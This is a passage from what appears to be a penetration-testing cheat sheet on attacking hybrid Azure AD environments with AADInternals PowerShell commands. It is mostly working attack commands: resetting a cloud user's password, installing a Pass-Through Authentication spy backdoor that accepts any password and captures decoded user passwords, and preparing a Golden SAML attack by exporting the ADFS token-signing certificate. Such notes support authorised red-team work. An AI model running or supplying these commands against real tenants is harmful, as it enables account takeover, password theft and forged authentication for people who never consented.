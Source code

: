 #### Reset password for cloud only user
- Need CloudAnchor ID which is the format <USER>_<OBJECTID>
```
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
Set-AADIntUserPassword -CloudAnchor "User_10caa362-7d18-48c9-a45b-9c3a78f3a96b" -Password "SuperSecretpass#12321" -Verbose
```

## Pass Through Authentication (PTA) Abuse
- Once we have admin access to an Azure AD connect server running PTA agent.
- Once the backdoor is installed, we can authenticate as any user synced from onprem without knowing the correct password!

#### Install a backdoor (needs to be run ad administrator
```
Install-AADIntPTASpy
```

### See passwords of on-prem users authenticating
- Stored in C:\PTASpy
```
Get-AADIntPTASpyLog -DecodePasswords
```

#### Register a new PTA agent
- After getting Global Administrator privileges by setting it on a attacker controled machine.
```
Install-AADIntPTASpy
```

## Federation (ADFS)
- Golden SAML Attack
#### Get the ImmutableID
```
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())
```

#### On ADFS server (As administrator)
```
Get-AdfsProperties |select identifier
```

#### Check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
```
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri
```

#### Extract the ADFS token signing certificate
- With DA privileges on-prem
```
Import-Module .\AADInternals.psd1
Export-AADIntADFSSigningCertificate
```
